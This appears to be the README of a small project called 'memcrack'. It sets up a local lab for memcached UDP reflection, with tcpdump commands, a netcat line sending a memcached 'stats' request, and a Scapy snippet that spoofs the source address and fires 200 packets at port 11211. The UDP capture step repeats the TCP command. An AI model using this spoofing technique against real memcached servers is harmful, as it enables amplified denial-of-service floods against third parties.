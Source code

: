 # memcrack
Please do not use for illegal purposes

## Lab

Start `tcpdump` for TCP on lo:

```
tcpdump -i lo tcp port 6666 -vv -X
```

Start `tcpdump` for UDP on eth0:

```
tcpdump -i lo tcp port 6666 -vv -X
```

Send direct packet to target:

```
echo "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -u 127.0.0.1 6666
```

Use `Scapy` to spoof packet:

```
>>> ip = IP(src="127.0.0.1", dst="127.0.0.1")
>>> port = UDP(sport=6666, dport=11211)
>>> data=Raw("\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n")
>>> send(ip / port / data, count=200)

```